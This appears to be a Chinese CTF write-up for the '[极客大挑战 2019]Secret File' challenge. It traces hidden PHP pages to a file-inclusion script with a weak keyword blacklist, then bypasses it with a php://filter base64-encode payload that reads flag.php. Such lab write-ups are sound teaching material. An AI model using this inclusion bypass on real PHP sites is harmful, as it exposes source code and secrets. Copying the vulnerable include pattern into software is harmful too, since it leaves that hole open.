 # [极客大挑战 2019]Secret File

打开题目查看源代码，发现`./Archive_room.php`，点进去后发现`./action.php`，再点进去是END，提示回头看看。

发现`./action.php`会自动跳转到`end.php`，尝试抓包，发现`./action.php`存在`secr3t.php`，打开得到源代码：
```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

是文件包含的绕过，过滤了以下内容
1. ../
2. 大小写tp
3. 大小写input
4. 大小写data

这个过滤还是挺容易绕过的，php://filter直接读取flag.php：
```html
php://filter/read=convert.base64-encode/resource=flag.php
```

get flag!